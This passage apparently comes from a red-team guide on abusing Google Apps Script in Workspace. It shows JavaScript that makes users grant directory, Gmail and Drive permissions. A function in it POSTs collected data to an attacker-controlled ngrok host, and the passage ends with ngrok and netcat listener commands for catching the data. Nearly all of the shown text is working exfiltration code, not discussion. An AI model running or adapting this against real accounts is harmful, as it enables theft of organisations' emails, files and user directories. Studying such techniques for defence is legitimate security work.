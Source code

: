 ```javascript

  // Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions

  // To ask for AdminDirectory permissions
  var pageToken = ""
  page = AdminDirectory.Users.list({
    domain: domain, // Use the extracted domain
    orderBy: "givenName",
    maxResults: 100,
    pageToken: pageToken,
  })

  // To ask for gmail permissions
  var threads = GmailApp.getInboxThreads(0, 10)

  // To ask for drive permissions
  var files = DriveApp.getFiles()
}

function makePostRequest(data) {
  var url = "http://5.tcp.eu.ngrok.io:12027"

  var options = {
    method: "post",
    contentType: "application/json",
    payload: JSON.stringify(data),
  }

  try {
    UrlFetchApp.fetch(url, options)
  } catch (e) {
    Logger.log("Error making POST request: " + e.toString())
  }
}
```

To capture the request you can just run:

```bash
ngrok tcp 4444
nc -lv 4444 #macOS
```

Permissions requested to execute the App Script:

<figure><img src="../../../images/image (334).png" alt=""><figcaption></figcaption></figure>
